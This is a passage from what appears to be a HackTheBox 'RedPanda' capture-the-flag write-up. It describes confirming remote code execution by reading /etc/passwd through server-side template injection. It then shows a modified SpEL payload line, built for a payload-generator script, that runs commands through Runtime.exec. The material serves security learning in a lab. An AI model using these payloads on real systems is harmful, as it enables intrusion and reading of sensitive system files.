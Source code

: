 actually does get us back the `/etc/passwd` file.

![/etc/passwd](/assets/images/HackTheBox/RedPanda/etc_passwd.png)

So looks like we do have remote code execution, but we're going to have to encode all of our commands in this really ugly way. Luckily for us though, there's [this project on GitHub](https://github.com/VikasVarshney/ssti-payload) which will make this a lot easier. All we have to do is download `ssti-payload.py` and change a `$` to a `*` in one line:

```python
#original line
payload='''${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)''' % decimals[0]

#new line
payload='''*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)''' % decimals[0]
```
